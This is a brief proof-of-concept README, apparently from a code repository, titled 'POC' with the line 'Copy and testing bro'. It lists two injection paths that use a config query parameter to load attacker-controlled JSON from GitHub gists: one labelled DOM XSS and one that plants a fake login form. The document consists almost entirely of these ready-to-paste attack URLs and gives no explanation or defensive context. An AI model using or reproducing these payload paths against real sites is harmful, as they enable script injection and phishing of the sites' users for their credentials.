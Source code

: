 # POC

Copy and testing bro

DOM XSS : /?config=https://gist.githubusercontent.com/Alicia-cmd/df611b98c1d21546704ed09cf2b1d19f/raw/8cd5c43d58221598d12414527e0db53f50400127/poc-xss.json
fake login : /?config=https://gist.githubusercontent.com/Alicia-cmd/ea10d7496597faa1f470e1833eea7f92/raw/03d93a721334bf2a9e4c3d170ba4840f3a05a724/poc-fake-login.json


